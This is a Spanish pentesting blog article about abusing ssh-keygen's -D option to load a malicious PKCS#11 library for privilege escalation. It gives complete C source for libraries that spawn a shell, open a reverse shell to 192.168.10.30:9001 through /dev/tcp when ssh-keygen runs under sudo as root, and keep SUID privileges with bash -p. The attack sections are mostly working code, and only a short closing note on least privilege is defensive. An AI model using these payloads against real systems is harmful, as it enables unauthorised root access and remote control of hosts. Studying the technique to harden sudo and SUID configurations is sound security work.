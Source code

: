 ```yaml
---
title: "Abusando de ssh-keygen"
summary: "SSH-Keygen es una herramienta que te permite crear y gestionar claves SSH, esta herramienta está presente en la mayoría de de sistemas UNIX actuales como herramienta para facilitar la gestión de claves SSH."
date: 2024-10-17
tag:
    - Ciberseguridad
    - Pentesting
    - SSH
    - Linux
    - SUID 
    - Persistencia
lang: es
---
```

# Abusando de ssh-keygen

SSH-Keygen es una herramienta que permite crear y gestionar claves SSH, esta herramienta esta presente en la mayoría de los sistemas UNIX hoy en día como herramienta para facilitar la gestión de las claves SSH.

En este articulo exploraremos un par de métodos para abusar de esta herramienta con ciertas configuraciones como método de persistencia o de escalada de privilegios en el sistema.

En concreto abusaremos de una funcionalidad concreta de este binario que permite la carga de claves publicas desde una librería de lectura de tarjetas, esta opción es el parámetro -D, su uso es el siguiente.

```c
ssh-keygen -D ./lib.so
```

# Como generamos el payload

Una vez explicado que nos lleva a poder explotar esta función, vamos a explicar en mayor detalle como generar un payload, para ello primero de todo será obtener una versión de pkcs11.h . En este archivo de cabeceras es donde se definen los tipos de datos necesarios para la función de nuestra librería que llamara ssh-keygen al usar el parámetro -D. 

En nuestro caso, para ello iremos al repositorio de Open Smart Card y descargaremos la versión que necesitamos de la siguiente url:

[GitHub - PKCS11](https://github.com/OpenSC/libp11/blob/master/src/pkcs11.h){:target="_blank"}

Con este archivo procederemos a escribir un pequeño programa en C con la estructura necesaria para ser ejecutado por ssh-keygen, en nuestro caso este programa lanza una shell en bash.

```c
#include "pkcs11.h"
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {

        char *cmd = "/bin/bash";
        char *args[] = {cmd, NULL};
        execv(cmd,args);

   } else if(pid > 0) {
        wait(NULL);
    } else {
        perror("fork");
        return 1;
    }

    return CKR_OK;
}
```

Una vez compilado podemos cargarlo como librería como indicamos en la introducción. 

## Profit

## Caso 1: Sudo SSH-Keygen

Vamos a explotar un escenario donde nuestro usuario tiene permisos para ejecutar el comando ssh-keygen como root.

```bash
Matching Defaults entries for pnavas on test:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pnavas may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /usr/bin/ssh-keygen
```

En este ese caso, en lugar de hacer uso de una simple llamada a bash vamos a cargar una reverse shell.

```c
#include "pkcs11.h"
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {

        char *cmd = "/bin/bash";
        char *args[] = {cmd, "-c" , "bash -i >& /dev/tcp/192.168.10.30/9001 0>&1", NULL};
        execv(cmd,args);

   } else if(pid > 0) {
        wait(NULL);
    } else {
        perror("fork");
        return 1;
    }

    return CKR_OK;
}
```

Como resultado, al cargarla obtendremos una conexión como root en nuestro listener, podríamos cambiarlo para ejecutar una shell sencillamente como en el ejemplo de la sección de teoría .

## Caso 2: SSH-Keygen SUID

En este escenario vamos a explotar un escenario algo menos común donde ssh-keygen tiene el bit del SUID activado, en este caso para mantener los privilegios del SUID tenemos que cambiar un poco el código de la librería para que la shell mantenga los privilegios.

```c
#include "pkcs11.h"
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {

        char *cmd = "/bin/bash";
        char *args[] = {cmd, "-p", NULL};
        execv(cmd,args);

   } else if(pid > 0) {
        wait(NULL);
    } else {
        perror("fork");
        return 1;
    }

    return CKR_OK;
}
```

Una vez compilado podemos ejecutar el comando para cargar la librería y obtener una shell con los privilegios necesarios.

## Reflexiones Finales

Como se ha demostrado, ssh-keygen es una herramienta poderosa que, cuando está mal configurada o mal utilizada, puede convertirse en un riesgo significativo para la seguridad. Los escenarios presentados en este artículo destacan la importancia de configurar y restringir adecuadamente el acceso a binarios con privilegios elevados.

Al comprender y gestionar proactivamente las capacidades y riesgos asociados con herramientas comunes como ssh-keygen, los administradores pueden garantizar la integridad y seguridad de sus sistemas.

!!! note
    Adopte siempre el principio de privilegio mínimo y realice auditorías de seguridad regulares para minimizar las superficies de ataque.

---
